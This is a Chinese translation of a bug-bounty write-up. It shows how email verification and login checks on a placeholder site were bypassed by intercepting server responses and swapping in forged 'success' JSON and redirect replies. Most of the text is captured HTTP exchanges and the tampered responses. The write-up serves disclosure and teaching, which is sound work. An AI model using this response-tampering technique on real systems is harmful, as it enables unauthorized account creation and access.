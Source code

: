 # 一个从很少到完全绕过电子邮件验证的奇怪案例

> 原文：<https://infosecwriteups.com/a-curious-case-from-little-to-complete-email-verification-bypass-2c7570040e7e?source=collection_archive---------0----------------------->

实现安全的电子邮件验证机制很容易出错。验证中的一个小错误会导致小问题或漏洞。然而，我要掩盖我最近遇到的一个案例。

输入所需的详细信息(名字、姓氏、电子邮件)后，将会发送一封验证邮件，以验证用户的真实性。验证邮件的结构如下

```
[https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)
```

访问该链接，您将被提示输入更多信息，如信用卡信息等。更改令牌的值导致了`Confirmation link is invalid.`，看起来令牌正在被验证。但是进一步检查发现`JSON`响应体是验证的罪魁祸首。

例如，如果上面的链接被访问，下面将是响应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With, {"response":{"status":"success","externalID":null,"errors":[]}}
```

但是，如果令牌被篡改(更改了第一个和最后一个值)，将会出现以下响应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With, {"response":{"status":"failure","externalID":"7[135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52da](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)e","errors":[{"code":"1210","message":"Confirmation link is invalid"}]},"userStatus":null}
```

最初我认为这可能是因为令牌部分正确，所以我决定使用完全随机的令牌。所以我伪造了如下链接

```
[https://yolosite.com/#/register/confirm/](https://yolosite.com/#/register/confirm/6135fbbf3e52effa1a04c6fcf7e1dd426f2cdf36803f413481b62e2803b52dad/)xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

以下是回应:-

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;

{"response":{"status":"failure","externalID":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx","errors":[{"code":"1211","message":"User not associated with this external id"}]},"userStatus":null}
```

我再次尝试伪造链接，但这次我决定拦截响应，并用`{"response":{"status":"success","externalID":null,"errors":[]}}`替换上面的`JSON`

我被要求输入信用卡的详细信息。这不是唯一需要绕过的端点。事实证明，防御机制仅仅基于`JSON`响应，没有进行服务器端验证。然而，在进一步尝试输入信用卡详细信息并点击**完成注册**之后，请求和响应被启动

```
POST /rest/services/public/register/full HTTP/1.1
Host: yolosite.com
Connection: close

{"externalId":"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx","locale":"en_IT","fullRegFields":{"card-alias-name-0":"Card-Name","card-numbers-0":"card-number","expiry-month-0":"MONTH","expiry-year-0":"2019","cvc-0":"cvc"}}
```

以下是对上述请求的回应

```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;{"status":"error","externalID":"","errors":[{"code":"0000","message":"An internal server error occurred"}]}
```

此时，这似乎是检查令牌的实际端点。尽管如此，我还是决定再次伪造回复，最终回复如下

```
HTTP/1.1 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1000
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Cache-Control, If-Modified-Since, X-Requested-With
Connection: close
Set-Cookie: Cookies here;{"response":{"status":"success","externalID":null,"errors":[]}}
```

上面的回复一转发，我就被带到了登录页面。但结果并不像我所期待的那样，我尝试登录，但我不能这样做。我决定进一步调查。

当经过**验证的**用户尝试登录时，请求如下。

```
POST /pkmslogin.form HTTP/1.1
Host: yolosite.com
Connection: close
Content-Type: application/x-www-form-urlencoded

username=username-here&password=Password-here&login-form-type=pwd
```

以下是我的回应

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1770
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAME-HERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.htm&HOSTNAME=yolosite.com&AUTHNLEVEL=
p3p: CP="NON CUR OTPi OUR NOR UNI"
Cache-Control: no-cache
Pragma: no-cache
Date: Sun, 04 Nov 2018 08:36:33 GMT
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAMEHERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

然后我试着用一个**未验证的账户**做了尝试，下面是回应

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1811
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=help&USERNAME=USERNAMEHERE&ERROR_CODE=0x13212079&ERROR_TEXT=HPDIA0121W%20%20%20The%20requested%20operation%20is%20not%20valid.&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL=
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=help&USERNAME=USERNAMEHERE&ERROR_CODE=0x13212079&ERROR_TEXT=HPDIA0121W%20%20%20The%20requested%20operation%20is%20not%20valid.&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

我再次篡改了上面的回复，最终编辑后的回复如下

```
HTTP/1.1 302 Moved Temporarily
Content-Length: 1770
Content-Type: text/html
Location: https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAME-HERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.htm&HOSTNAME=yolosite.com&AUTHNLEVEL=
p3p: CP="NON CUR OTPi OUR NOR UNI"
Cache-Control: no-cache
Pragma: no-cache
Date: Sun, 04 Nov 2018 08:36:33 GMT
Connection: close
Set-Cookie: Cookies-here;

**<html>**
**<P><A** HREF="https://yolosite.com/rest/services/public/lrr?TAM_OP=login_success&USERNAME=USERNAMEHERE&ERROR_CODE=0x38cf05e7&ERROR_TEXT=DPWWA1511I%20%20%20Login%20successful&URL=%2Fpkmslogin.form&REFERER=https%3A%2F%2Fyolosite.com%2Fwfp%2Fen-it.html&HOSTNAME=yolosite.com&AUTHNLEVEL="**>**Click here**</A>** to fetch the resource.
**</html>**
```

上面的回复一转发，我就成功地绕过剩余的检查登录了这个账户。耶。

# **最终想法**

由于我能够完全绕过电子邮件验证，我本可以尝试注册@yolosite.com 电子邮件，但为时已晚。

![](img/37877afeb3d32f2aa6598375c9925a8a.png)